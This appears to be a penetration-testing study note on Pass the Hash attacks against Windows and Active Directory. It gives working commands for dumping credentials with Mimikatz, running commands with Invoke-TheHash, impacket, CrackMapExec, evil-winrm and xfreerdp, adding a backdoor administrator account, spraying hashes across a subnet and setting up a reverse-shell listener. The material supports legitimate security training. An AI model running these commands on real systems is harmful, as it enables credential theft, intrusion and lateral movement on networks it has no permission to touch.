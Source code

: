In [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack we use the hash for authentication instead of the password.

Several ways to extract hashes (with administrative privileges):
- Dumping the local SAM database from a compromised host ([[Attacking SAM]]).
- Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller ([[Attacking Active Directory & NTDS.dit]]).
- Pulling the hashes from memory (lsass.exe) ([[Attacking LSASS]]).

## Windows NTLM Introduction

Microsoft's [Windows New Technology LAN Manager (NTLM)](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview) is a set of security protocols that authenticates users' identities while also protecting the integrity and confidentiality of their data. NTLM is a single sign-on (SSO) solution that uses a challenge-response protocol to verify the user's identity without having them provide a password.

Even though flawed, NTLM is commonly used for compatibility purposes, Kerberos is the default authentication mechanism since Windows 2000 AD domain.

With NTLM password stored on the server and domain controller are not salted, which means we can authenticate with the hash without knowing the original password.

## Pass the Hash with Mimikatz (Windows)

### Dump hashes in memory
```cmd-session
C:\tools>mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

The `sekurlsa::pth` model is used to perform PtH attack by starting a process using the hash of the user's password, to use the model we will need the following:
- `/user` - The user name we want to impersonate.
- `/rc4` or `/NTLM` - NTLM hash of the user's password.
- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

### Pass the Hash from Windows Using Mimikatz
```cmd-session
c:\tools> mimikatz.exe privilege::debug "sekurlsa::pth /user:<username> /[rc4 | NTLM]:<rc4 or NTLM hash> /domain:<domain> /run:cmd.exe" exit
```

## Pass the Hash with PowerShell Invoke-TheHash (Windows)

[Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) is a collection of PowerShell functions for performing pass the hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.

Parameters needed to execute commands in the target system:
- `Target` - Hostname or IP address of the target.
- `Username` - Username to use for authentication.
- `Domain` - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
- `Hash` - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
- `Command` - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

### Invoke-TheHash with SMB
```powershell-session
PS c:\htb> cd C:\tools\Invoke-TheHash\
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
PS c:\tools\Invoke-TheHash> Invoke-SMBExec -Target <hostname or IP address> -Domain <domain> -Username <username> -Hash <hash> -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

We can also use it to get a reverse shell.

### Netcat Listener from our Windows Machine
```powershell-session
PS C:\tools> .\nc.exe -lvnp 8001
```

We can use [https://www.revshells.com/](https://www.revshells.com/) to create a simple reverse shell using PowerShell, we should set our IP, port and select the option `PowerShell #3 (Base64)`.

![[pth_invoke_the_hash.jpg]]

## Pass the Hash with Impacket (Linux)

### Pass the Hash with Impacket PsExec
```shell-session
$ impacket-psexec <username>@<target ip> -hashes :<hash>
```

Other tools we can use for command execution using pass the hash attack:
- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

## Pass the Hash with CrackMapExec (Linux)

[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. We can also try it for several host, this is called password spraying and can lock out accounts.

### Pass the Hash with CrackMapExec
```shell-session
# crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H <hash>
```

We can add `--local-auth` to our command to try and login locally to hosts, there can be a password reuse for local admin accounts, to protect against it we can [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) for randomization and rotation.

### CrackMapExec - Command Execution
```shell-session
# crackmapexec smb <ip address> -u Administrator -d . -H <hash> -x whoami
```

## Pass the Hash with evil-winrm (Linux)

If SMB is blocked or we don't have administrative rights, we can use this protocol.

### Pass the Hash with evil-winrm
```shell-session
$ evil-winrm -i <ip address> -u Administrator -H <hash>
```

**Note:** When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb

## Pass the Hash with RDP (Linux)

`Restricted Admin Mode` if disabled will cause an error when trying this attack, it's disabled by default and can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0.

### Enable Restricted Admin Mode to Allow PtH
```cmd-session
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

### Pass the Hash Using RDP
```shell-session
$ xfreerdp  /v:<ip address> /u:<username> /pth:<hash>
```

## UAC Limits Pass the Hash for Local Accounts

UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. Setting it to 1 allows the other local admins as well.

**Note:** There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.